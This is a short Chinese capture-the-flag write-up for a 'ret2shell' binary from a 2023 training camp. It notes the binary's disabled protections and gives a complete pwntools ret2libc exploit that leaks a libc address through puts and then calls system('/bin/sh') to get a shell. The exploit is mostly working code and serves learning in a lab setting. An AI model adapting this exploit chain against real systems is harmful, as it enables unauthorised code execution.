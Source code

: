 ```yaml
---
title: 赛博协会训练营 - ret2shell 
date: 2023/9/19 12:00:00
tags:
    - noob
excerpt: 通过分析`ret2shell`程序，利用ret2libc方法成功实现远程代码执行。
---
```


from cbctf starter 2023

## 文件分析

下载`ret2shell`, NX off, PIE off, RELRO off  
ghidra分析为64位程序

## 解题思路

> .bss不可执行，且栈溢出的空间不足以放下shellcode，转而考虑**ret2libc**

打完moectf后记：shellcode放的下，但是不太好在栈上执行shellcode  
ret2libc过程参考moectf2023和cbctf的

## EXPLOIT

```python
from pwn import *
import LibcSearcher

sh = remote(???, 10032)
elf = ELF('ret2shell')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400703
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x400696

# payload 2
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.

